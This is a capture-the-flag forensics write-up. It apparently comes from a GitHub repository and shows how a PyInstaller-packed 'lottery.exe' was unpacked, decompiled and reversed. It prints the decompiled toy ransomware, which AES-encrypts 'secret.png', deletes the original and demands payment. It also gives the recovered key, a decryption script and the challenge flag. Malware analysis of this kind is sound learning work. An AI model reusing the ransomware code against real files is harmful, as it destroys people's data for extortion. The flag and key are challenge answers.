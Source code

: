 # Lottery
## Description
Now that you know the CVE, figure out how the attacker crafted the payload & executed it to compromise the 'secret'.
## Solution
- `lottery.exe` is the malicious file that is being executed by the user. ![1](Screenshots/0.69_1.png)
- I got to know of a tool called [VirusTotal](https://www.virustotal.com/gui/home/upload), which can be used to scan suspicious files for malware.
- I found this after uploading the file: ![2](Screenshots/L_1.png)
- It can be seen that the program is packed using PyInstaller. I looked up how to extract the embedded Python files for analysis. 
- I got to know of a tool called [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) which can be used to extract the contents of a PyInstaller executable.
- Created the file [pyinstxtractor.py](./pyinstxtractor.py) and ran `python3 pyinstxtractor.py lottery.exe` and got:
```
[+] Processing lottery.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 9008682 bytes
[+] Found 122 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_setuptools.pyc
[+] Possible entry point: pyi_rth_pkgres.pyc
[+] Possible entry point: lottery.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.8 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: lottery.exe

You can now use a python decompiler on the pyc files within the extracted directory
```
- It created a new folder [lottery.exe_extracted](./lottery.exe_extracted/). Running `ls` in the directory gave me:
```
Crypto                                          api-ms-win-core-timezone-l1-1-0.dll
PYZ-00.pyz                                      api-ms-win-core-util-l1-1-0.dll
PYZ-00.pyz_extracted                            api-ms-win-crt-conio-l1-1-0.dll
VCRUNTIME140.dll                                api-ms-win-crt-convert-l1-1-0.dll
_bz2.pyd                                        api-ms-win-crt-environment-l1-1-0.dll
_cffi_backend.cp38-win_amd64.pyd                api-ms-win-crt-filesystem-l1-1-0.dll
_ctypes.pyd                                     api-ms-win-crt-heap-l1-1-0.dll
_decimal.pyd                                    api-ms-win-crt-locale-l1-1-0.dll
_hashlib.pyd                                    api-ms-win-crt-math-l1-1-0.dll
_lzma.pyd                                       api-ms-win-crt-process-l1-1-0.dll
_multiprocessing.pyd                            api-ms-win-crt-runtime-l1-1-0.dll
_queue.pyd                                      api-ms-win-crt-stdio-l1-1-0.dll
_socket.pyd                                     api-ms-win-crt-string-l1-1-0.dll
_ssl.pyd                                        api-ms-win-crt-time-l1-1-0.dll
api-ms-win-core-console-l1-1-0.dll              api-ms-win-crt-utility-l1-1-0.dll
api-ms-win-core-datetime-l1-1-0.dll             base_library.zip
api-ms-win-core-debug-l1-1-0.dll                libcrypto-1_1.dll
api-ms-win-core-errorhandling-l1-1-0.dll        libffi-7.dll
api-ms-win-core-file-l1-1-0.dll                 libssl-1_1.dll
api-ms-win-core-file-l1-2-0.dll                 lottery.pyc
api-ms-win-core-file-l2-1-0.dll                 pyexpat.pyd
api-ms-win-core-handle-l1-1-0.dll               pyi_rth_inspect.pyc
api-ms-win-core-heap-l1-1-0.dll                 pyi_rth_multiprocessing.pyc
api-ms-win-core-interlocked-l1-1-0.dll          pyi_rth_pkgres.pyc
api-ms-win-core-libraryloader-l1-1-0.dll        pyi_rth_pkgutil.pyc
api-ms-win-core-localization-l1-2-0.dll         pyi_rth_setuptools.pyc
api-ms-win-core-memory-l1-1-0.dll               pyiboot01_bootstrap.pyc
api-ms-win-core-namedpipe-l1-1-0.dll            pyimod01_archive.pyc
api-ms-win-core-processenvironment-l1-1-0.dll   pyimod02_importers.pyc
api-ms-win-core-processthreads-l1-1-0.dll       pyimod03_ctypes.pyc
api-ms-win-core-processthreads-l1-1-1.dll       pyimod04_pywin32.pyc
api-ms-win-core-profile-l1-1-0.dll              python38.dll
api-ms-win-core-rtlsupport-l1-1-0.dll           select.pyd
api-ms-win-core-string-l1-1-0.dll               setuptools-56.0.0.dist-info
api-ms-win-core-synch-l1-1-0.dll                struct.pyc
api-ms-win-core-synch-l1-2-0.dll                ucrtbase.dll
api-ms-win-core-sysinfo-l1-1-0.dll              unicodedata.pyd
```
- I found the file `lottery.pyc` which is the Python bytecode file. 
- I learnt that I need to decompile this file and can use a tool called `uncompyle6` for this. I installed it using `pip3 install uncompyle6`.
- I decompiled the `lottery.pyc` file using `uncompyle6 -o .. lottery.pyc` and got the Python code in the parent directory [lottery.py](./lottery.py):
```python
# uncompyle6 version 3.9.2
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.12.3 (v3.12.3:f6650f9ad7, Apr  9 2024, 08:18:47) [Clang 13.0.0 (clang-1300.0.29.30)]
# Embedded file name: lottery.py
import os, tempfile
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def generate_key():
    key = os.urandom(32)
    fp = tempfile.TemporaryFile(mode="w+b", delete=False)
    fp.write(key)
    return key


def encrypt_file(file_path, key):
    iv = b'urfuckedmogambro'
    with open(file_path, "rb") as file:
        data = file.read()
        padded_data = pad(data, AES.block_size)
        cipher = AES.new(key, AES.MODE_CBC, iv)
        encrypted_data = cipher.encrypt(padded_data)
    file.close()
    encrypted_file_path = file_path + ".enc"
    with open(encrypted_file_path, "wb") as encrypted_file:
        encrypted_file.write(encrypted_data)
    os.remove(file_path)


if __name__ == "__main__":
    key = generate_key()
    file_path = "secret.png"
    encrypt_file(file_path, key)
    print("Dear MogamBro, we are fucking your laptop with a ransomware & your secret image is now encrypted! Send $69M to recover it!")
```
- The script uses AES encryption to encrypt the file `secret.png`. The key is generated using `os.urandom(32)` and stored in a temporary file. The IV is `b'urfuckedmogambro'`. The encrypted file is saved as `secret.png.enc`.
- We need the key to decrypt the file. I was chatting with an LLM and it suggested me to check the `AppData\Local\Temp` directory for the key file. 
- And indeed, I found the key file of 32 bytes [tmpd1tif_2a](./tmpd1tif_2a): ![3](Screenshots/L_2.png)
- The key's hex code is `FBF60E95C2F3C96F36E1195538E34E30CF1A290F1C14CD5E699E476A3BE2BC5E`.
- Created the script [decrypt.py](./decrypt.py) with the help of an LLM to decrypt the file:
```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import binascii

def decrypt_file(file_path, key):
    iv = b'urfuckedmogambro'
    with open(file_path, "rb") as encrypted_file:
        encrypted_data = encrypted_file.read()
        cipher = AES.new(key, AES.MODE_CBC, iv)
        decrypted_data = unpad(cipher.decrypt(encrypted_data), AES.block_size)
    decrypted_file_path = file_path.replace(".enc", "_decrypted.png")
    with open(decrypted_file_path, "wb") as decrypted_file:
        decrypted_file.write(decrypted_data)

# Convert hexadecimal key to bytes
hex_key = "FBF60E95C2F3C96F36E1195538E34E30CF1A290F1C14CD5E699E476A3BE2BC5E"
key = binascii.unhexlify(hex_key)

decrypt_file("secret.png.enc", key)
```
- Running the script decrypted the file [secret.png.enc](./secret.png.enc) and created the decrypted file ![4](secret.png_decrypted.png)
- The flag is: `BITSCTF{1_r3c3ived_7h3_b0mbz}`.